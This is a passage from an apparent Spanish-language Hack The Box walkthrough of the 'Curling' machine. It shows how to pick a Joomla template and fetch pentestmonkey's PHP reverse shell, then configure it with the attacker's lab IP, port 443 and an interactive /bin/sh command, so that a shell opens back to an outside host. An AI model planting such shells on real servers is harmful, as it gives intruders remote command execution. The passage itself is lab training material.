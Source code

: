 Seleccionamos de la tabla que nos parace aquel que no está asginado (**Beez3 - Default**) en el campo de **Template**:

![](/assets/images/htb-curling/curling-web6.png)

Antes de generar un archivo, vamos a descargarnos una reverse shell de [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

```bash
❯ mv /home/k4miyo/Descargas/Firefox/php-reverse-shell-1.0.tar.gz .
❯ ll
.rw-r--r-- root   root    22 B  Fri Mar 18 14:36:07 2022  credentials.txt
.rw-r--r-- k4miyo k4miyo 8.8 KB Fri Mar 18 14:49:25 2022  php-reverse-shell-1.0.tar.gz
❯ tar -xf php-reverse-shell-1.0.tar.gz
❯ ll
drwx------ k4miyo 1004   132 B  Sat May 26 11:50:01 2007  php-reverse-shell-1.0
.rw-r--r-- root   root    22 B  Fri Mar 18 14:36:07 2022  credentials.txt
.rw-r--r-- k4miyo k4miyo 8.8 KB Fri Mar 18 14:49:25 2022  php-reverse-shell-1.0.tar.gz
❯ cd php-reverse-shell-1.0
❯ ll
.rw------- k4miyo 1004  62 B  Sat May 26 11:50:01 2007  CHANGELOG
.rw------- k4miyo 1004  18 KB Sat May 26 11:50:01 2007  COPYING.GPL
.rw------- k4miyo 1004 308 B  Sat May 26 11:50:01 2007  COPYING.PHP-REVERSE-SHELL
.rwx------ k4miyo 1004 5.4 KB Sat May 26 11:50:01 2007  php-reverse-shell.php
```

Editamos el archivo `php-reverse-shell.php` modificando los valores que nos indica.

```bash
  47   │ set_time_limit (0);
  48   │ $VERSION = "1.0";
  49   │ $ip = '10.10.14.27';  // CHANGE THIS
  50   │ $port = 443;       // CHANGE THIS
  51   │ $chunk_size = 1400;
  52   │ $write_a = null;
  53   │ $error_a = null;
  54   │ $shell = 'uname -a; w; id; /bin/sh -i';
  55   │ $daemon = 0;
  56   │ $debug = 0;

```
